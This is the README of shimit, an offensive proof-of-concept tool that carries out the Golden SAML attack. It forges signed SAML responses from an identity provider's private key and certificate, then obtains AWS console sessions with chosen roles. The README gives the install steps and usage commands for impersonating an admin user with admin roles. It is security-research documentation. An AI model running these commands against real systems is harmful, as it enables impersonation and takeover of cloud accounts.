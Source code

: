 # shimit

`shimit` is a python tool that implements the Golden SAML attack. More informations on this can be found in the following [article](https://www.cyberark.com/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps) on our blog.

```
python .\shimit.py -h
usage: shimit.py [-h] -pk KEY [-c CERT] [-sp SP] -idp IDP -u USER [-reg REGION]
                 [--SessionValidity SESSION_VALIDITY] [--SamlValidity SAML_VALIDITY] -n SESSION_NAME
                 -r ROLES -id ARN [-o OUT_FILE] [-l LOAD_FILE] [-t TIME]
                 
              ██╗   ███████╗██╗  ██╗██╗███╗   ███╗██╗████████╗     ██╗ ██╗  
             ██╔╝   ██╔════╝██║  ██║██║████╗ ████║██║╚══██╔══╝    ██╔╝ ╚██╗ 
            ██╔╝    ███████╗███████║██║██╔████╔██║██║   ██║      ██╔╝   ╚██╗
            ╚██╗    ╚════██║██╔══██║██║██║╚██╔╝██║██║   ██║     ██╔╝    ██╔╝
             ╚██╗   ███████║██║  ██║██║██║ ╚═╝ ██║██║   ██║    ██╔╝    ██╔╝ 
              ╚═╝   ╚══════╝╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═╝     ╚═╝  
```
## Overview
In a golden SAML attack, attackers can gain access to an application (any application that supports SAML authentication) with any privileges they desire and be any user on the targeted application.

*shimit* allows the user to create a signed _SAMLResponse_ object, and use it to open a session in the Service Provider. *shimit* now supports AWS Console as a _Service Provider_, more are in the works...
### AWS 
After generating and signing the _SAMLResponse_'s _assertion_, shimit will call the _AssumeRoleWithSAML()_ API in AWS. Then, the session token and key will be applied to a new session, where the user can use aws cli to perform action using the permissions obtained using the *golden SAML*. 

## Requirements:
For installing the required modules, run the following command:

```
python -m pip install boto3 botocore defusedxml enum python_dateutil lxml signxml
```
### AWS cli ###
Needs to be installed in order to use the credentials obtained.
Can be downloaded for [Windows](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-windows.html) or
[Linux](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-linux.html)
from these links.


## Usage:


### Apply session for AWS cli
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
```
**idp** - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust

**pk**  - Private key file full path (pem format)

**c**   - Certificate file full path (pem format)

**u**   - User and domain name e.g. domain\username (use \\ or quotes in *nix)

**n**   - Session name in AWS

**r**   - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.

**id**  - AWS account id e.g. 123456789012



### Save SAMLResponse to file
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
**o**  - Output encoded SAMLResponse to a specified file path
### Load SAMLResponse from file
```
python .\shimit.py -l saml_response.xml
```
**l**  - Load SAMLResponse from a specified file path

## Contributions

`shimit` supports AWS as a service provider at the moment, as a POC. We highly encourage you to conribute with a new modules for other service providers. 